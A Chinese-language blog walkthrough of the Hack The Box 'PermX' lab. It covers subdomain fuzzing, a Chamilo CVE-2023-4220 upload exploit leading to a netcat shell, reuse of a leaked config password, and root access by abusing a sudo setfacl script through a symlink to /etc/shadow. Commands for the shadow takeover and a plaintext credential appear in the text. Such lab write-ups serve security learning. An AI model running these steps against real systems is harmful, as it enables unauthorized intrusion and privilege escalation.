 ```yaml
---
title: Hack The Box PermX
description: Hack The Box PermX 靶机 WP
pubDate: 09 24 2024
image: https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-2.webp
categories:
  - 网络安全
tags:
  - 靶场
  - 渗透测试
---
```


Hack The Box PermX 靶机

靶机 IP：10.10.11.23

## Web 渗透

放 Goby 里扫

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-3.webp)

发现 80 端口开启，访问 Web 页面

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-1.webp)

跳转至 `permx.htb`，添加至 Hosts

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-2.webp)

没啥东西，fuzz 子域名

```shell
.\wfuzz.bat -c -w "E:\Crack\Red_Team\Dict\SecLists\Discovery\DNS\subdomains-top1million-5000.txt" -u "http://permx.htb/" -H "Host: FUZZ.permx.htb" --hl 9
```

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-4.webp)

得到子域名 `lms.permx.htb`，添加到 hosts

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-5.webp)

查找默认密码

没找到。弱口令试试，`admin/admin`

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-6.webp)

跳转到这里，可能有SQL 注入？

没成功，找一下其他 nday

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-7.webp)

发现一个 RCE

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-8.webp)

需要管理账号密码，没用。接着找

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-9.webp)

找到另一个 RCE

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-10.webp)

失败。目录扫描试试

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-11.webp)

发现个 `web` 目录

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-12.webp)

没用，看看 `robots`

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-13.webp)

发现一个文档

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-14.webp)

当前版本是 1.11。接着找 nday

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-16.webp)

这里倒是一堆，挨个试吧

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-15.webp)

CVE-2023-4220 这个洞，确实找到了一个 `bigUpload.php`

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-17.webp)

不过看不了源码，用他给的 exp 上 shell

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-18.webp)

用 nc 接一下

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-19.webp)

## 内网渗透

找 flag

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-20.webp)

没有，找 home 下的用户

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-21.webp)

有一个 `mtz` 用户，找一下网站配置文件

在 `/var/www/chamilo/app/config/configuration.php` 找到如下内容

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-22.webp)

得到 `chamilo/03F6lY3uXAP2bkW8`，试着登录一下 `mtz/03F6lY3uXAP2bkW8`

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-23.webp)

ok，登录进来了，得到 flag

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-24.webp)

上几个工具，全都用不了

常规看一下

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-25.webp)

`/opt/acl.sh` 可访问

```shell
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* ); then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

脚本功能是在 `/home/mtz/` 下改权限。看一下 `/home/mtz` 下的权限

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-26.webp)

哎？可以用软链接

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-27.webp)

我们现在可以修改一个文件，那就修改 shadow 呗，重新生成一个密码

```shell
sudo /opt/acl.sh mtz rwx /home/mtz/root/etc/shadow
```

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-28.webp)

然后用 `openssl` 重新生成一个密码

```shell
openssl passwd -6 Admin
```

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-29.webp)

得到

```shell
$6$sqEazCoH043.7zJA$TWQBv0Zo.K8uhq5zPJuj7cmQjP491KmeR.7zoZK9K4w49RM3E4Xat9MZelXHPZnGs6w40bvj2zDWOoNHAsvBJ0
```

然后 echo 覆写一下，即可登录 root

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-30.webp)

拿到 flag

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-31.webp)

